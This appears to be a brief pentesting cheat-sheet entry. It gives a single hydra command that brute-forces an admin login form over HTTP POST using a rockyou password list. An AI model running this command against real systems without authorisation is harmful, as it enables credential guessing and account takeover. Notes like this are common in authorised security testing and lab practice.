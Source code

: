 # hydra brute force HTTP post form
```bash
hydra $IP http-post-form "/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect" \
-l admin -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt -t 10 -w 30 -o hydra-http-post-attack.txt
```

# Related

Tags:
    #assorted
